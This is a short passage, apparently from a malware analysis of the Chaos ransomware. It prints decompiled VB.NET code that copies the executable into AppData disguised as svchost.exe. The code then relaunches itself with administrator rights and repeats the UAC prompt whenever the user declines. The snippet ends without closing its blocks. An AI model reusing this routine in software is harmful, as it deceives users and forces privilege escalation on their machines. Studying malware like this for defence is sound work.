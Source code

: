 ![image](/images/chaos/chaos-03.png)

It copy the current executable to a specified location and attempt to run it with administrative privileges. 

```vbnet
Private Shared processName As String = "svchost.exe"

Private Shared Sub copyResistForAdmin(processName As String)
	Dim friendlyName As String = AppDomain.CurrentDomain.FriendlyName
	Dim location As String = Assembly.GetExecutingAssembly().Location
	Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\" + friendlyName
	Dim text As String = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\"
	Dim text2 As String = text + processName
	Dim processStartInfo As ProcessStartInfo = New ProcessStartInfo(text2) With { .UseShellExecute = True, .Verb = "runas", .WindowStyle = ProcessWindowStyle.Normal, .WorkingDirectory = text }
	Dim process As Process = New Process()
	process.StartInfo = processStartInfo
	If friendlyName <> processName OrElse location <> text2 Then
		If Not File.Exists(text2) Then
			File.Copy(friendlyName, text2)
			Try
				Process.Start(processStartInfo)
				Environment.[Exit](1)
				Return
			Catch ex As Win32Exception
				If ex.NativeErrorCode = 1223 Then
					Program.copyResistForAdmin(processName)
				End If
				Return
			End Try
		End If
		Try
			File.Delete(text2)
			Thread.Sleep(200)
			File.Copy(friendlyName, text2)
		Catch
		End Try
		Try
			Process.Start(processStartInfo)
			Environment.[Exit](1)
		Catch ex2 As Win32Exception
			If ex2.NativeErrorCode = 1223 Then
				Program.copyResistForAdmin(processName)
			End If
		End Try
```